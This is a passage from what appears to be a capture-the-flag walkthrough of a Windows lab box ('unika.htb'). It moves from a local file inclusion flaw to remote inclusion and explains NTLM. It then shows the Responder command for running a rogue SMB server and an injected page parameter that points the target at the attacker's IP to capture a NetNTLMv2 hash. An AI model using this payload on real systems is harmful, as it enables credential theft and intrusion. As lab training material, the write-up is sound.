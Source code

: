 Now that we know we can access files on the server, an `LFI` (Local File Incluse) vulnerability, perhaps we there is an `RFI` (Remote File Incluse) vulnerability. From our `nmap`, we know that the server hosting this page is a `Windows` machine. So, in order for us to test this RFI vulnerability, we will first need to learn a bit about `NTLM`.

### NTLM
`NTLM` (New Technology Lan Manager) is essentially a network security manager in Windows that provides authentication, integrity, and confidentiality. Noteably, it is a `single sign-on` (SSO) which allows requires users to only be authenticated once. More details of `NTLM` and the authentication process can be found on [Crowdstrike](https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/). Basically, there are tools — such as `Responder` — which allow us to listen in on the NTLM authentication and capture the `NetNTLMv2` hash. If we are able to crack this hash, we can then gain access to the server. Let's give it a go.

### Responder
`Responder` (`git clone https://github.com/lgandx/Responder`), is a tool that can simulate many attacks. In this case, we will use it as a malicious SMB server to capture the `NetNTLMv2` hash. This can be done by:

```shell {linenos=false}
$ sudo python3 Responder.py -I tun0
```

Now we will have the server interact with this SMB server (hosted on your client IP — mine being `10.10.14.165`) by changing the URL in our browser to:

```{linenos=false}
http://unika.htb/index.php?page=//10.10.14.165/any_file_name
```

Hash acquired!
